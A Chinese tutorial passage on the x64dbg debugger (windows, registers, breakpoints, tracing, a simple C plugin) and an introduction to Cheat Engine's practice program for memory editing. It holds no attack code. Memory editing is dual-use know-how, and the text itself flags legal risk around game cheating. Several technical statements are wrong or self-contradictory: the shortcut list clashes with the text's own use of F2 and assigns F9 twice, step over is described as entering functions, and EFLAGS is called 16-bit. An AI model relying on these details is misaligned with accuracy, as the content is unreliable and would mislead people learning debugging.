## 第一篇：熟悉x64dbg调试器

x64dbg 是一款开源、免费、功能强大的动态反汇编调试器，它能够在`Windows`平台上进行应用程序的反汇编、调试和分析工作。与传统的调试器如`Ollydbg`相比，x64dbg调试器的出现填补了`Ollydbg`等传统调试器的不足，为反汇编调试工作提供了更高效、更可靠的解决方案。正是因为有了这些优点，才能使其成为当今最受欢迎的反汇编调试软件之一。


x64dbg官方地址：https://x64dbg.com/

x64dbg和Ollydbg虽都是`Windows`平台上的调试器工具，但它们有一些不同之处：

- 支持架构：Ollydbg仅支持x86架构，而x64dbg支持x86和x64架构，因此x64dbg可以调试64位应用程序，而Ollydbg则无法做到。
- 开源性：x64dbg是一个开源项目，而Ollydbg是闭源软件。
- 插件生态：x64dbg的插件系统更加完善，有更多的第三方插件可供使用，而Ollydbg的插件系统相对较少。
- 用户界面：x64dbg的界面比Ollydbg更现代化，具有更好的可定制性，可以自定义布局，颜色和字体等。
- 功能比较：x64dbg具有许多高级功能，如内存映射，数据跟踪，反汇编和代码绘图等，而Ollydbg则相对较少。

在学习使用该工具之前第一步则是要安装软件，x64dbg调试器的安装很容易，读者只需要前往`x64dbg`的官方开源仓库中找到下载按钮。

以Github仓库为例，读者需访问`https://github.com/x64dbg/x64dbg/releases`并在其中找到所对应的`snapshot_2023-03-04_02-26.zip`版本点击下载即可；



下载好以后解压这个压缩包，读者会看到两个文件夹，其中`pluginsdk`代表的是`x64dbg`的开发工具包，如果需要开发自定义插件则需要引入该工具包，而`release`则是编译版本的`x64dbg`本体，打开`release`文件夹读者会看到如下图所示的目录结构，其中`x32/x64`分别代表的是两种架构的调试器，而如果用户需要安装调试器到系统内只需要点击`x96dbg.exe`并依次点击下一步即可完成调试器的安装；



### 1.1 如何启动调试

不同于OllyDBG调试器，x64dbg默认就支持两种调试模式，通常读者可以选择使用打开文件的方式调试程序，也可以直接附加到一个已经存在的进程上调试同时支持脱离进程，需要注意的是为了保证最佳的调试效果，调试器的打开请读者使用管理员方式运行。

当用户需要打开调试程序时，可以通过菜单"文件"->"打开"（或者按下快捷键F3），会弹出如下图所示的打开文件对话框，默认对话框会停留在`x64dbg`软件的根目录，此时通过选择所需调试的进程即可打开调试；



第二种调试方式则是直接附加到一个已经存在的进程上，可以通过菜单"文件"->"附加"（或者按下快捷键Alt+A）会弹出如下图所示的附加对话框，读者只需要选中一个正在运行的程序即可附加到特定进程内，当用户调试结束后可通过Ctrl+Alt+F2脱离进程；



### 1.2 熟悉x64dbg窗口

当被调试程序与调试器之间建立调试关系以后，就可以开始进行动态调试分析了，在x64dbg中有许多的窗口，例如CPU窗口，寄存器窗口，堆栈窗口，十六进制窗口等，如下图所示则是x64dbg运行后的主界面；

这里增加一个知识点，关于动态反汇编调试与静态反汇编调试的区别：

 - 动态反汇编调试（Dynamic Disassembly Debugging）是指在程序运行时动态地反汇编机器码，从而获取指令级别的执行信息和内存访问情况，以辅助调试和分析程序。动态反汇编调试需要借助特殊的调试工具，如GDB、x64dbg、Ollydbg等，通常用于调试崩溃、死锁、内存泄漏等问题。

 - 静态反汇编调试（Static Disassembly Debugging）是指对程序进行反汇编分析，不需要运行程序，只需要对程序进行静态分析就可以获得指令级别的执行信息和内存访问情况，以辅助调试和分析程序。静态反汇编调试需要使用特殊的工具，如IDA Pro、Binary Ninja等，通常用于逆向工程、恶意代码分析、漏洞挖掘等方面。



如上图所示，当调试器运行后最大的窗口则是CPU窗体，CPU窗体是x64dbg的默认主窗口，用户所有的调试工作都在CPU窗体中完成，因为CPU窗体就是用于反应当前CPU以及寄存器执行状态的，CPU窗体其内部包含了五个子窗口，分别是反汇编窗口，寄存器窗口，栈地址窗口，十六进制数据窗口，以及堆栈参数解析窗口。

**（1）反汇编窗口**

反汇编窗口是`x64dbg`的一个主要功能之一，它可以显示被调试程序的汇编指令，并允许用户查看和修改这些指令（需要注意的是当一个进程被加载默认EIP会停在系统模块中），其主要的作用包括；

 - 显示程序的汇编指令：反汇编窗口可以将二进制文件转换为汇编代码，并显示在窗口中。这使得程序员可以深入了解程序的内部工作原理，并且可以查找程序中的漏洞和安全问题。
 - 允许用户修改指令：反汇编窗口不仅可以显示程序的汇编指令，还可以允许用户直接在窗口中修改指令。这对于调试和修复程序中的错误非常有用，但需要小心操作，以避免引入新的错误。
 - 跟踪代码执行：反汇编窗口还可以跟踪被调试程序的代码执行过程，以便程序员可以了解程序在运行时的行为和状态。这对于调试和优化程序非常有用。
 - 显示程序的符号表：反汇编窗口可以显示程序的符号表，这对于程序员来说非常重要，因为它可以帮助他们更好地理解程序中的变量、函数和其他标识符。

**（2）寄存器窗口**

寄存器窗口则是在调试器最右侧的顶端，该窗口用于显示和解释当前线程环境下CPU寄存器的各种状态值和内容，并且读者可以通过双击这些寄存器组来对其进行动态的调整参数；

| 寄存器 | 描述                                                     |
| ------ | -------------------------------------------------------- |
| EAX    | 通用寄存器，用于存放函数返回值、算术运算结果等。         |
| EBX    | 通用寄存器，用于存放内存地址或其他通用数据。             |
| ECX    | 通用寄存器，用于存放函数参数。                           |
| EDX    | 通用寄存器，用于存放内存地址或其他通用数据。             |
| ESI    | 通用寄存器，用于存放源数据的地址，例如字符串拷贝等操作。 |
| EDI    | 通用寄存器，用于存放目标数据的地址，例如字符串拷贝等操作。 |
| EBP    | 基址指针，用于存放当前栈帧的基址。                       |
| ESP    | 堆栈指针，用于存放当前堆栈顶部的地址。                   |
| EIP    | 指令指针，用于存放当前正在执行的指令的地址。             |
| EFLAGS | 标志寄存器，用于存放CPU的状态标志，例如进位标志、零标志、符号标志等。 |

其中标志寄存器（Flag Register）是一个16位的寄存器，用于存储CPU运算的状态标志，例如进位标志、零标志、符号标志等。下面列出了x86架构CPU中的标志寄存器以及它们的含义：

| 标志位 | 中文名称 | 描述 |
| :----: | :------: | :--: |
|   CF   | 进位标志 |  当无符号整数加法或减法的结果超出了寄存器的宽度时，该标志位会被设置为1。CF=1表示有进位发生，CF=0表示无进位发生。 |
|   PF   | 奇偶标志 | 当一个操作的结果中有偶数个二进制位为1时，该标志位会被设置为1。PF=1表示结果中有偶数个1，PF=0表示结果中有奇数个1。 |
|   AF   | 调整标志 | 当一个二进制算术操作（例如加法或减法）中低4位产生了进位或借位时，该标志位会被设置为1。AF=1表示有进位或借位发生，AF=0表示无进位或借位发生。 |
|   ZF   | 零标志 | 当一个操作的结果为零时，该标志位会被设置为1。ZF=1表示结果为零，ZF=0表示结果不为零。 |
|   SF   | 符号标志 | 当一个操作的结果为负数时，该标志位会被设置为1。SF=1表示结果为负数，SF=0表示结果为非负数。 |
|   TF   | 陷阱标志 | 该标志位用于单步调试，当TF=1时，CPU会在每个指令执行后暂停并等待调试器的命令。 |
|   IF   | 中断标志 | 该标志位用于控制CPU是否响应中断请求。当IF=1时，CPU允许中断请求；当IF=0时，CPU禁止中断请求。 |
|   DF   | 方向标志 | 该标志位用于控制字符串操作的方向，当DF=1时，字符串操作是从高地址向低地址进行的；当DF=0时，字符串操作是从低地址向高地址进行的。 |
|   OF   | 溢出标志 | 当有符号整数加法或减法的结果超出了寄存器的宽度时，该标志位会被设置为1。OF=1表示有溢出发生，OF=0表示无溢出发生。 |

**（3）堆栈窗口**

堆栈窗口用于显示当前线程的栈，栈是一种后进先出（Last-In-First-Out，LIFO）的数据结构。堆栈窗口会随着ESP（Extended Stack Pointer）寄存器的变化而变化，ESP指向当前栈顶元素的地址。堆栈窗口可以显示栈帧、函数调用和局部变量等信息，这对于调试和优化程序非常有用。此外，堆栈窗口还可以允许用户修改栈上的数据，这对于调试和修复程序中的错误非常有用，但需要小心操作，以避免引入新的错误。

堆栈窗口有两个重要的作用，一个是用于调用函数时的参数传递，另一个作用是函数内部的变量局部空间，函数内定义的变量和临时变量都存储在堆栈中，当函数返回时，这些变量会自动销毁。堆栈窗口可以帮助程序员查看函数内部变量的值和状态，从而更好地理解程序的行为和调试错误。

**（4）十六进制窗口**

在x64dbg最左侧底部则是十六进制窗口，该窗口的主要作用适用于浏览内存，或在特定区域读入或写出数据时使用，在某些时候还可以用来在特定内存区域下断点，以下是一些关于它的主要作用：

 - 浏览内存 - 十六进制窗口可以让您直接查看内存中的数据。您可以使用箭头键或鼠标滚轮向上或向下滚动，以浏览更多内存。这对于分析程序的内存布局和查找特定数据非常有用。
 - 读入或写出数据 - 可以在十六进制窗口中选择特定的内存区域，并使用右键菜单中的“复制”和“粘贴”选项来读入或写出数据。这对于修改程序的内存状态或在调试过程中注入数据非常有用。
 - 设置断点 - 可以在特定的内存地址上设置断点，以便在程序执行到该地址时中断。要设置断点，请在十六进制窗口中右键单击该地址，并选择“设置断点”。

除了以上这些功能外，十六进制窗口还可以显示与特定内存地址相关的汇编代码，并提供许多其他的操作选项，例如搜索内存、转换数据格式等等。

**（5）掌握常用快捷键**

熟练掌握x64dbg的快捷键可以使调试和分析工作更加高效和快速。x64dbg提供了丰富的快捷键选项，让用户在操作时可以尽可能地减少鼠标操作，更专注于代码和调试数据的分析。通过掌握快捷键，可以更快速地执行调试命令、添加或删除断点、修改寄存器、查找内存等操作，从而提高调试和分析的效率。因此，熟练使用x64dbg的快捷键是成为一名高效的调试和分析人员的必备技能之一，以下是x64dbg所支持的快捷键分类，读者可更具自己的实际情况学习掌握；

> 调试控制

 - F2：开始/停止调试
 - F3：单步执行
 - F7：进入函数调用
 - F8：跳过函数调用
 - F9：继续执行
 - F12：暂停/继续执行

> 断点
 - F5：添加/删除断点
 - Ctrl + F5：添加/删除硬件断点
 - F6：添加/删除条件断点
 - F9：启用/禁用断点
 - Ctrl + F9：启用/禁用所有断点

> 寄存器
 - Ctrl + R：打开/关闭寄存器窗口
 - Ctrl + G：跳转到指定地址
 - F2/F4/F6：在寄存器窗口中修改寄存器的值

> 内存
 - Ctrl + M：打开/关闭内存窗口
 - Ctrl + E：打开/关闭表达式窗口
 - Ctrl + F：查找指定字节序列
 - Ctrl + Shift + F：查找指定指令序列
 - Ctrl + D：将内存中的数据以十六进制形式导出到文件中

> 动态分析
 - Ctrl + A：打开/关闭汇编窗口
 - Ctrl + B：打开/关闭堆栈窗口
 - Ctrl + C：打开/关闭CPU窗口
 - Ctrl + L：打开/关闭日志窗口

> 其他
 - Ctrl + F2：打开/关闭工具栏
 - Ctrl + F10：打开/关闭菜单栏
 - Ctrl + Q：退出x64dbg

注意：以上快捷键是x64dbg的默认设置，您也可以通过"选项"菜单中的"快捷键"选项来自定义快捷键。

### 1.3 熟悉x64dbg断点

断点机制是调试器的重要功能，x64dbg为调试着提供了多种调试断点，通常包括了软件断点，硬件断点，内存断点，一次性断点，条件断点，消息断点等，熟练使用断点是调试程序的基本技能，断点通常可被总结为如下；

**（1）软件断点**

在程序执行到特定指令时暂停程序执行。这种断点类型是由调试器模拟实现的，通常通过修改程序指令来实现。它是最常见的断点类型，因为可以在任何代码段中设置断点。

在x64dbg中，调试这可以通过`F2`快捷键在所需下断点的位置下断，当该位置被下断点后，则调试器会以红色标注，而当前EIP指针则会使灰色显示，如下图所示；



此外软件断点同样可以使用`bp/bpx`等命令下断，或通过`bc`来取消断点，当读者需要在特定函数上下断点时，可通过`Ctrl+G`调出地址跳转表达窗口，并输入如`MessageBoxA`等函数，跳转后手动下断点。



亦可在命令窗口输入`bp MessageBoxA`自动下断点，断点可在`断点`选项卡中看到该断点的详细参数；



**（2）硬件断点**

与软件断点不同，硬件断点是通过修改特定的处理器寄存器来实现的，这些寄存器用于跟踪指令地址和数据访问地址。硬件断点通常比软件断点更快，但是受到硬件限制，可以在某些情况下设置的数量有限。

在x64dbg中，硬件断点可以分为三种类型：硬件执行断点、硬件读取断点和硬件写入断点。以下是每种类型的解释：

 - 硬件执行断点 - 当程序执行到指定地址时，触发硬件执行断点。这种断点类型适用于在特定指令处调试程序，例如函数调用或跳转指令。在x64dbg中，硬件执行断点可以通过在指令前面的地址上设置“e”来实现。

 - 硬件读取断点 - 当程序尝试从指定内存地址读取数据时，触发硬件读取断点。这种断点类型适用于在特定内存位置上调试程序，例如检测某个变量的值何时被更改。在x64dbg中，硬件读取断点可以通过在指定内存地址上设置“r”来实现。

 - 硬件写入断点 - 当程序尝试向指定内存地址写入数据时，触发硬件写入断点。这种断点类型适用于在特定内存位置上调试程序，例如检测某个变量的值何时被更改。在x64dbg中，硬件写入断点可以通过在指定内存地址上设置“w”来实现。



**（3）内存断点**

当程序在特定内存地址处读取、写入或执行时，暂停程序执行。这种断点类型通常用于检测内存访问错误或跟踪特定变量的更改。而一次性断点则是在程序执行到特定指令时只触发一次。这种断点类型通常用于调试复杂代码中的问题，而不是在每次执行到指令时都触发断点。

在x64dbg中，内存断点可以根据不同的操作类型进行分类，内存断点被分为内存访问，内存执行，内存写入，内存读取等，他们之间的应用各不相同；

 - 内存访问断点（Access breakpoint）：当程序试图访问特定内存地址时触发，可以用于检测对敏感数据的未授权访问，例如密码、私钥等。
 - 内存执行断点（Execute breakpoint）：当程序试图执行特定内存地址处的指令时触发，可以用于检测恶意代码注入、代码劫持等攻击。
 - 内存写入断点（Write breakpoint）：当程序试图写入特定内存地址时触发，可以用于检测对敏感数据的修改、防止非法更改程序代码等。
 - 内存读取断点（Read breakpoint）：当程序试图从特定内存地址读取数据时触发，可以用于检测对敏感数据的窃取、防止非法读取程序代码等。



**（4）消息断点**

x64dbg消息断点（Message Breakpoint）是一种特殊类型的断点，可以用于监视程序执行期间的Windows消息，包括键盘输入、鼠标操作、窗口消息等。当程序接收到指定类型的消息时，消息断点会触发，程序执行会暂停，以便进行调试。



消息断点在调试GUI程序时非常有用，可以帮助调试窗口消息的处理代码，定位程序中的错误或异常行为。例如，当你想要调试一个窗口消息处理函数时，可以在该函数上设置消息断点，当程序接收到对应的消息时，程序会暂停在该函数内部，方便进行调试。

### 1.4 熟悉x64dbg代码跟踪

**（1）反汇编调试命令**

在前面的章节中笔者介绍了x64dbg的窗口以及断点的基本设置方法，接下来将介绍x64dbg中的代码跟踪，代码跟踪是任何一个调试器的核心功能，一般而言跟踪功能都会包括，单步步过（快捷键F8），单步步进（快捷键F7），运行到返回(快捷键Ctrl+F9)，以及运行到用户代码(Alt+F9快捷键)等常用功能。



在x64dbg中进行代码跟踪可以帮助我们分析程序的执行过程和调试代码，以便更好地理解程序的运行机制。下面是一些常用的代码跟踪功能，及对该功能的解析：

 - 单步步过（快捷键F8）：该功能用于逐行执行程序，当执行到函数调用时，会直接跳到函数内部执行，而不会逐行执行函数内部的代码。
 - 单步步进（快捷键F7）：该功能用于逐行执行程序，当执行到函数调用时，会进入函数内部逐行执行代码，直到执行完毕并返回到函数调用处。
 - 运行到返回(快捷键Ctrl+F9)：该功能用于直接运行程序，直到执行到当前函数的返回语句处停止，并返回到函数调用处。
 - 运行到用户代码(快捷键Alt+F9)：该功能用于直接运行程序，直到执行到用户指定的代码位置停止，可以通过设置断点来指定代码位置。
在进行代码跟踪时，我们可以在代码窗口中看到当前执行的行和执行指针所指向的内存地址，也可以在寄存器窗口中查看各个寄存器的值，以便更好地理解程序的执行过程。

**（2）反汇编检索命令**

在x64dbg中，读者可通过`Ctrl+F`快捷键命令调出命令搜索窗口，并输入一条反汇编指令集，即可实现检索模块内具备的命令位置，当用户勾选整块搜索时，x64dbg会搜寻整个进程内所有匹配的命令，比较遗憾的是x64dbg目前还不支持搜寻多条指令集；



虽然无法搜索连续的汇编指令集，但却可是搜寻二进制字符串，通过快捷键`Ctrl+B`读者可打开二进制搜索框，我们以如下这条命令为例；



打开二进制搜索框，输入`8B FF 55 8B EC`即可用于检索上方的指令片段，也算是一种折中的方法；



同时x64dbg还支持搜索字符串，通过右键菜单即可调出搜索框，并实现特殊字符串的检索；



### 1.5 为x64dbg编写插件

任何一个成熟的软件都会具有可扩展性，可扩展性是现代软件的一个重要特征，因为它使软件更易于维护和适应变化的需求，`x64dbg`也不例外其可通过开发插件的方式扩展其自身功能，`x64dbg`提供了多种插件接口，包括脚本插件、DLL插件、Python插件和.NET插件等。此外，`x64dbg`还支持用户自定义命令和快捷键。这使得用户可以自由地扩展和自定义软件的功能，从而更好地适应开发需求。

我们以`C/C++`语言为开发模板，`x64dbg`插件表现出来的其实也是一个`DLL`文件，他里面导出了`x64dbg`所需要的几个函数，从而可以在`x64dbg`启动时被加载，除去所必须的导出函数外，其他功能的实现与`DLL`基本一致。

**（1）开发前的准备工作**

在开发`x64dbg`插件时，首先需要配置插件的开发工具包，请读者将x64dbg插件包中的`pluginsdk`解压到任意路径下，该包内就是开发所必须要用到的SDK库。

并打开`Visual Studio 2013`并新建一个`DLL`空项目，此时请读者打开"调试"->"属性页"并在配置属性页，VC++目录中引入`pluginsdk`库，读者只需要配置`包含目录`及`库目录`即可，具体配置参数如下图所示；



当读者正确引入后，那么下一步则是新建配置文件，x64dbg官方针对配置方法给予了一个模板文件，读者可以自行去下载该模板使用。

 - 项目地址：https://github.com/x64dbg/PluginTemplate

在开发插件时，至少需要导出两个函数，函数`plugsetup`以及`pluginit`这两个函数是插件的标识，x64dbg将会通过这两个函数来判断是否可被加载，所以在开发时这两个插件是必须要存在的。

以下是 `void plugsetup(PLUG_SETUPSTRUCT* setupStruct)` 函数的原型和解释：
```C
void plugsetup(PLUG_SETUPSTRUCT* setupStruct);
```
plugsetup 函数是一个可选的插件函数，用于初始化插件和设置其参数。该函数在插件加载时由主程序调用。

该函数的参数是一个指向 `PLUG_SETUPSTRUCT` 结构的指针，该结构包含了一些与插件有关的信息和设置。通过读取和设置 `PLUG_SETUPSTRUCT` 结构中的字段，插件可以初始化其自身并与主程序进行通信。具体来说，`PLUG_SETUPSTRUCT` 结构包含以下字段：

 - StructSize: 结构体大小，用于指示传递给插件的结构的大小。插件应该使用 sizeof 运算符来设置此字段的值。
 - PluginHandle: 插件的句柄，由主程序分配并传递给插件，用于标识该插件。
 - hwndDlg: 插件界面的句柄，如果插件具有界面，则应该将该字段设置为其窗口句柄。
 - hMenu: 插件的菜单句柄，如果插件具有菜单，则应该将该字段设置为其菜单句柄。
 - hMenuDisasm: 反汇编窗口的菜单句柄，如果插件需要访问反汇编窗口的菜单，则应该将该字段设置为反汇编窗口的菜单句柄。
 - hMenuDump: 转储窗口的菜单句柄，如果插件需要访问转储窗口的菜单，则应该将该字段设置为转储窗口的菜单句柄。

插件应该使用 `plugsetup` 函数来完成其自身的初始化和参数设置，以便在主程序中正确地运行。

以下是 `bool pluginit(PLUG_INITSTRUCT* initStruct)` 函数的原型和解释：
```C
bool pluginit(PLUG_INITSTRUCT* initStruct);
```
pluginit 函数是一个必需的插件函数，用于初始化插件和注册插件的命令。该函数在插件加载时由主程序调用。

该函数的参数是一个指向 `PLUG_INITSTRUCT` 结构的指针，该结构包含了一些与插件有关的信息和设置。通过读取和设置 `PLUG_INITSTRUCT` 结构中的字段，插件可以初始化其自身并注册其命令。具体来说，`PLUG_INITSTRUCT` 结构包含以下字段：

 - StructSize: 结构体大小，用于指示传递给插件的结构的大小。插件应该使用 sizeof 运算符来设置此字段的值。
 - PluginHandle: 插件的句柄，由主程序分配并传递给插件，用于标识该插件。
 - sdkVersion: 主程序的 SDK 版本号，由主程序传递给插件。
 - pluginVersion: 插件的版本号，由插件设置并传递给主程序。
 - PluginName: 插件的名称，由插件设置并传递给主程序。
 - PluginAuthor: 插件的作者，由插件设置并传递给主程序。
 - PluginDescription: 插件的描述，由插件设置并传递给主程序。

插件应该使用 `pluginit` 函数来完成其自身的初始化和命令注册。该函数应该返回 `true` 表示初始化成功，或 `false` 表示初始化失败。如果返回 `false`，主程序将卸载该插件并显示错误信息。

如上函数解释，我们可知`pluginit`适用于初始化插件的，例如增加插件菜单栏，设置插件功能等，我们以如下代码为例做一个简单的解释；
```C
PLUG_EXPORT bool pluginit(PLUG_INITSTRUCT* initStruct)
{
    initStruct->pluginVersion = PLUGIN_VERSION;
    initStruct->sdkVersion = PLUG_SDKVERSION;
    strncpy_s(initStruct->pluginName, PLUGIN_NAME, _TRUNCATE);
    pluginHandle = initStruct->pluginHandle;

    // 插件初始化
    initStruct->sdkVersion = PLUG_SDKVERSION;
    initStruct->pluginVersion = 1;
    const char *name = "CheckME -->";
    memset(initStruct->pluginName, 0, 128);
    memcpy(initStruct->pluginName, name, strlen(name));

    return pluginInit(initStruct);
}
```
代码中通过`initStruct->pluginVersion`设置了插件版本，通过`initStruct->sdkVersion`设置了SDK版本，并在`initStruct->pluginName`中设置了插件名称，最后调用了`pluginInit(initStruct)`初始化了插件，至此该插件即创建完毕了；

而`plugsetup`函数则是用于在初始化时在`setupStruct->hMenu`也就是菜单顶部增加一个菜单栏，标题为`PowerBy LyShark`的列表。
```C
PLUG_EXPORT void plugsetup(PLUG_SETUPSTRUCT* setupStruct)
{
    hwndDlg = setupStruct->hwndDlg;
    hMenu = setupStruct->hMenu;
    hMenuDisasm = setupStruct->hMenuDisasm;
    hMenuDump = setupStruct->hMenuDump;
    hMenuStack = setupStruct->hMenuStack;

    // 增加二级菜单
    char sub_menu[] = { "PowerBy LyShark" };
    _plugin_menuaddentry(setupStruct->hMenu, 2, sub_menu);

    pluginSetup();
}
```
当菜单被点击是则会触发`CBMENUENTRY`函数，执行该函数内的流程，如上就是插件的加载流程。

**（2）开发插件实战**

在本节，笔者将带领大家实现一个简单的x64dbg插件，该插件的功能很简单，当用户点击菜单栏中的选项是，我们让其弹出一个消息框，此处为了开发方便，我做了精简化，你可以直接使用我的方法来新建文件，建出来的文件只有两个非常简洁。

首先在头文件部分新建一个`pluginmain.h`并增加`PLUGIN_NAME`替换成自己项目的名字。
```C
#pragma once

// Plugin information
#define PLUGIN_NAME "LySharkBlog"
#define PLUGIN_VERSION 1

#include "./bridgemain.h"
#include "./_plugins.h"

#include "./_scriptapi_argument.h"
#include "./_scriptapi_assembler.h"
#include "./_scriptapi_bookmark.h"
#include "./_scriptapi_comment.h"
#include "./_scriptapi_debug.h"
#include "./_scriptapi_flag.h"
#include "./_scriptapi_function.h"
#include "./_scriptapi_gui.h"
#include "./_scriptapi_label.h"
#include "./_scriptapi_memory.h"
#include "./_scriptapi_misc.h"
#include "./_scriptapi_module.h"
#include "./_scriptapi_pattern.h"
#include "./_scriptapi_register.h"
#include "./_scriptapi_stack.h"
#include "./_scriptapi_symbol.h"

#include "./DeviceNameResolver/DeviceNameResolver.h"
#include "./jansson/jansson.h"
#include "./lz4/lz4file.h"
#include "./TitanEngine/TitanEngine.h"
#include "./XEDParse/XEDParse.h"

#ifdef _WIN64
#pragma comment(lib, "./x64dbg.lib")
#pragma comment(lib, "./x64bridge.lib")
#pragma comment(lib, "./DeviceNameResolver/DeviceNameResolver_x64.lib")
#pragma comment(lib, "./jansson/jansson_x64.lib")
#pragma comment(lib, "./lz4/lz4_x64.lib")
#pragma comment(lib, "./TitanEngine/TitanEngine_x64.lib")
#pragma comment(lib, "./XEDParse/XEDParse_x64.lib")
#else
#pragma comment(lib, "./x32dbg.lib")
#pragma comment(lib, "./x32bridge.lib")
#pragma comment(lib, "./DeviceNameResolver/DeviceNameResolver_x86.lib")
#pragma comment(lib, "./jansson/jansson_x86.lib")
#pragma comment(lib, "./lz4/lz4_x86.lib")
#pragma comment(lib, "./TitanEngine/TitanEngine_x86.lib")
#pragma comment(lib, "./XEDParse/XEDParse_x86.lib")
#endif //_WIN64

#define Cmd(x) DbgCmdExecDirect(x)
#define Eval(x) DbgValFromString(x)
#define dprintf(x, ...) _plugin_logprintf("[" PLUGIN_NAME "] " x, __VA_ARGS__)
#define dputs(x) _plugin_logprintf("[" PLUGIN_NAME "] %s\n", x)
#define PLUG_EXPORT extern "C" __declspec(dllexport)

//superglobal variables
extern int pluginHandle;
extern HWND hwndDlg;
extern int hMenu;
extern int hMenuDisasm;
extern int hMenuDump;
extern int hMenuStack;

//functions
bool pluginInit(PLUG_INITSTRUCT* initStruct);
void pluginStop();
void pluginSetup();
```
其次新建一个实现文件`pluginmain.cpp`并写入以下代码，多数情况下我为了方便调试会使用这段代码，当我们点击菜单时会触发菜单功能，以此可以快速测试特定函数是否正常。
```C
#include "pluginmain.h"
#include <Windows.h>
#include <process.h>

int pluginHandle;
HWND hwndDlg;
int hMenu;
int hMenuDisasm;
int hMenuDump;
int hMenuStack;

// 导出函数
extern "C" __declspec(dllexport) void CBMENUENTRY(CBTYPE cbType, PLUG_CB_MENUENTRY* info);
extern "C" __declspec(dllexport) void plugsetup(PLUG_SETUPSTRUCT* setupStruct);
extern "C" __declspec(dllexport) bool pluginit(PLUG_INITSTRUCT* initStruct);

// 在这里初始化插件数据。
bool pluginInit(PLUG_INITSTRUCT* initStruct)
{
    // 返回false以取消加载插件。
    return true;
}

// 在此处取消初始化插件数据。
void pluginStop()
{
}

// 在这里做GUI/菜单相关的事情。
void pluginSetup()
{
}

// 菜单被点击回调
void CBMENUENTRY(CBTYPE cbType, PLUG_CB_MENUENTRY* info)
{
    // 此菜单用于实现功能，并测试
    MessageBox(0, L"hello lyshark", 0, 0);
}

PLUG_EXPORT bool pluginit(PLUG_INITSTRUCT* initStruct)
{
    initStruct->pluginVersion = PLUGIN_VERSION;
    initStruct->sdkVersion = PLUG_SDKVERSION;
    strncpy_s(initStruct->pluginName, PLUGIN_NAME, _TRUNCATE);
    pluginHandle = initStruct->pluginHandle;

    // 插件初始化
    initStruct->sdkVersion = PLUG_SDKVERSION;
    initStruct->pluginVersion = 1;
    const char *name = "CheckME -->";
    memset(initStruct->pluginName, 0, 128);
    memcpy(initStruct->pluginName, name, strlen(name));

    return pluginInit(initStruct);
}

PLUG_EXPORT bool plugstop()
{
    pluginStop();
    return true;
}

PLUG_EXPORT void plugsetup(PLUG_SETUPSTRUCT* setupStruct)
{
    hwndDlg = setupStruct->hwndDlg;
    hMenu = setupStruct->hMenu;
    hMenuDisasm = setupStruct->hMenuDisasm;
    hMenuDump = setupStruct->hMenuDump;
    hMenuStack = setupStruct->hMenuStack;

    // 增加二级菜单
    char sub_menu[] = { "PowerBy LyShark" };
    _plugin_menuaddentry(setupStruct->hMenu, 2, sub_menu);

    pluginSetup();
}
```
通过使用`Visual Studio 2013`编译这段程序，其默认会生成一个`*.dll`的文件，根据不同版本需要将其更改为`*.dp32`或者`*.dp64`以此来代表这是一个插件，并将更改好的插件放入到`x32/plugins`目录下，重启`x64dbg`至此即可看到插件已经被加载成功。



## 第二篇：熟悉CheatEngine修改器

Cheat Engine 一般简称为CE，它是一款功能强大的开源内存修改工具，其主要功能包括、内存扫描、十六进制编辑器、动态调试功能于一体，且该工具自身附带了脚本工具，可以用它很方便的生成自己的脚本窗体，CE工具可以帮助用户修改游戏或者软件中的内存数据，以获得一些其他的功能，CE可以说是目前最优秀的进程内存修改器，但需要注意的是，它的使用可能会涉及到非法或者违反游戏规则的行为，建议读者在使用 `Cheat Engine` 时要注意自己的行为是否符合相关法律和道德规范。


 - CE官方地址：https://www.cheatengine.org/

读者可通过官方网址自行下载修改器，也可以在本书课件中获取到`CheatEngine 7.5`版本的汉化版工具，将CE解压到任意目录下，并运行`Cheat Engine.exe`即可打开，需要注意的是如果读者是第一次使用CE工具，则在打开后会提示用户选择语言，此时用户只需要选择简体中文即可，如下图所示；



Cheat Engine 的主界面非常简单，当你打开 `Cheat Engine` 工具时，会看到一个如下图所示的主界面，它相对来说还是比较简单的。在这个主界面的顶部，有一个菜单栏，包含了工具中的所有功能模块，包括文件、编辑、查找等，而在左上角还会看到一个频繁闪烁的按钮，该按钮是CE中附加进程的按钮；



主界面下半部分是主要的操作区，你可以在这里进行进程列表、内存查找、脚本等方面的操作。界面中央有一个调试器，可以帮助你找到和修改目标进程的内存数据。并且可以在这里快速定位出内存地址，视图面板显示了内存中的数据。

在左侧的侧边栏中，你可以进行比较详细的设置和参数配置，比如选择数据类型，设置查找参数等等，对于高级用户，这里有很多可以进行自定义配置的选项，可以帮助你更好地利用 Cheat Engine。总的来说，Cheat Engine 工具的主界面十分简洁明了，使得新手和专业用户都可以轻松地进行操作。

当用户需要调试进程时，只需要在CE文件选项卡中选择打开进程按钮，或者直接点击左上角的电脑图标，根据需要调试的进程名选择打开即可实现附加，如下图所示；



接下来我们以CE修改器目录下的`Tutorial-i386.exe`程序为例来讲解CE修改器的基本使用技巧和思路，读者应自行打开这个程序，并手动附加到进程上；

 - 首先要打开 Cheat Engine
 - 然后点击 "打开进程" 图标
 - 当进程列表窗口打开后请在列表中找到`Tutorial-i386.exe`教程程序
 - 如果你找到了这个进程就点击它，然后点击 "打开" 按钮即可

当附加成功后，读者应该可以看到进程列表中出现了相关字样，这说明进程已经被附加成功了，输出效果图如下图所示；



至此读者应该学会了简单的进程附加操作，接下来笔者将带领大家学习CE修改器的基本使用技巧，这其中包括进程附加操作、精确数值扫描、未知数值扫描、浮点数扫描、代码替换、指针寻找、代码注入、多级指针查找和共享代码查找等高级功能的使用方法及其实现原理，并希望通过阅读本章内容来掌握 Cheat Engine 工具及其各种高级功能。

### 2.1 精确数值扫描

本关是CE修改器的第一关，用户需要通过 `Cheat Engine` 工具完成精确扫描值。在这个练习中，需要将一个特定的数值（健康值）改变为 1000。首先，要确保数值类型设置正确，默认的是2字节或4字节。接着，选择“精确数值”扫描类型，将健康值填入数值输入框中，点击“首次扫描”。在扫描结果中，如果出现多个地址，可以继续点击打我按钮并输入变更后的健康值来进行“再次扫描”，确定正确的地址。双击左侧列表中的地址可以将其移动到下方的地址列表中并显示其当前值。接着，双击下方地址列表中的数值（或者选择它，按下回车），填写你要修改的数值 1000。如果操作正确，"下一步"按钮将变成可点击的状态，本关就算完成了。如果出现错误，可以点击“新的扫描”重新开始扫描，或者点击“打我”查找更多的线索。

尽管有各种不同的方法都能找到生命值的内存地址，但是我会告诉你最简单的那个方法：

 - 首先，将 [扫描类型] 设置为 [精确数值]
 - 接着，把 [数值类型] 设置为 [4 字节]
